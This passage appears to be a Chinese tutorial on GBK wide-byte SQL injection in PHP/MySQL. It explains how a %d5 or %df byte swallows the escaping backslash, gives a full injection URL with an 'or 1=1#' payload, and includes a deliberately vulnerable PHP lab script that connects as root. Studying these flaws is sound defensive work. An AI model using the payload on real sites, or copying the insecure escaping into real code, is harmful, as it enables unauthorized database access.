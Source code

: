 ![img](https://upload-images.jianshu.io/upload_images/9113981-56fe904b3450cef4.png?imageMogr2/auto-orient/strip|imageView2/2/w/810/format/webp)

图片.png

其原理是`mysql_query("SETNAMES 'gbk'",$conn)`语句将编码字符集修改为gbk，此时，`%df\'`对应的编码就是`%df%5c’`，即汉字“運’”，这样单引号之前的转义符号“\”就被吃调了，从而转义消毒失败。
像编码对应汉字的也有其他可以构造的，比如
`0xD50×5C` 对应了汉字“诚”，URL编码用百分号加字符的16进制编码表示字符，于是 `%d5%5c` 经URL解码后为“诚”。
**举一个注入详细的过程：**
例如：访问 `http://www.2cto.com /test.php?username=test%d5′%20or%201=1%23&pwd=test`

**经过[浏览器](https://www.2cto.com/os/liulanqi/)编码**，username参数值为(单引号的编码0×27)



```bash
username=test%d5%27%20or%201=1%23
```

**经过php的url解码**

`username=test 0xd5 0×27 0×20 or 0×20 1=1 0×23` (为了便于[阅读](http://book.2cto.com/)，在字符串与16进制编码之间加了空格)

**经过[PHP](https://www.2cto.com/kf/web/php/)的GPC自动转义变成(单引号0×27被转义成\’对应的编码0×5c0×27)：**



```bash
username=test 0xd5 0×5c 0×27 0×20 or 0×20 1=1 0×23
```

因为在[数据库](https://www.2cto.com/database/)初始化连接的时候SET NAMES ‘gbk’，`0xd50×5c`解码后为诚，`0×27`解码为’，`0×20`为空格，`0×23`为[mysql](https://www.2cto.com/database/MySQL/)的注释符#

**上面的SQL语句最终为：**

```
SELECT * FROM user WHERE username=’test诚’ or 1=1#’ and password=’test’;
```

注释符#后面的字符串已经无效，等价于



```bash
SELECT * FROM user WHERE username=’test诚’ or 1=1;
```

条件变成永真，成功注入。
**补充：**
0xD50×5C不是唯一可以绕过单引号转义的字符，0×81-0xFE开头+0×5C的字符应该都可以；
根据utf8的编码范围，无此问题；
**3.14**



```php
<?php  
header("Content-Type:text/html;charset=gbk"); //为了显示，将页面默认为gbk
error_reporting(0);  
$conn = mysql_connect('127.0.0.1','root','');  
mysql_select_db('mysql',$conn);  
mysql_query("set names gbk");  //不安全的编码设置方式  
$res = mysql_query("show variables like 'character%';"); //显示当前数据库设置的各项字符集  
while($row = mysql_fetch_array($res)){  
var_dump($row);  
}  
$user = addslashes($_GET['sql']); //mysql_real_escape_string() magic_quote_gpc=On addslashes() mysql_escape_string()功能类似  
$sql = "SELECT host,user FROM user WHERE user='{$user}'";  
echo $sql.'</br>';  
if($res = mysql_query($sql)){  
while($row = mysql_fetch_array($res)){  
var_dump($row);  
}  
```